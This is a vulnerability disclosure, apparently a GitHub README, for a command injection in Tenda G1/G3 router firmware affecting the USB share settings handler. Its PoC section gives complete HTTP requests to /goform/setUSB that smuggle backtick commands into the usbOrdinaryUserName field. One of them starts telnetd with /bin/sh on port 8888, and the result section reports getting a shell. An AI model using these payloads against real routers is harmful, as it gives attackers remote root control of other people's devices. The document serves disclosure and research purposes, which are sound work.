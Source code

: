 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `formSetUSBShareInfo` function, `usbOrdinaryUserName` is directly passed by the attacker, so we can control the `usbOrdinaryUserName` to attack the OS.

As you can see here, the input has not been checked. And then, call the function setValueIfNotNull to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `netctrl` binary:

In `samba_change_cfg` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `usbOrdinaryUserName` as **`/usr/sbin/telnetd`guest** , and the router will excute it,such as:

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 124
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/USB/usbFileShare.html?0.38914363317516376
Cookie: _:USERNAME:_=; G3v3_user=

usbPrivilegedUserName=admin&usbPrivilegedUserPwd=admin&usbOrdinaryUserName=`/usr/sbin/telnetd`guest&usbOrdinaryUserPwd=guest
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

We set `usbOrdinaryUserName` as **`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`guest** , and the router will excute it,such as:

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 144
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/USB/usbFileShare.html?0.38914363317516376
Cookie: _:USERNAME:_=; G3v3_user=

usbPrivilegedUserName=admin&usbPrivilegedUserPwd=admin&usbOrdinaryUserName=`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`guest&usbOrdinaryUserPwd=guest
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

Get a shell!

<div  align="center"><img src="./images/7.png" style="zoom:100%;" /></div>
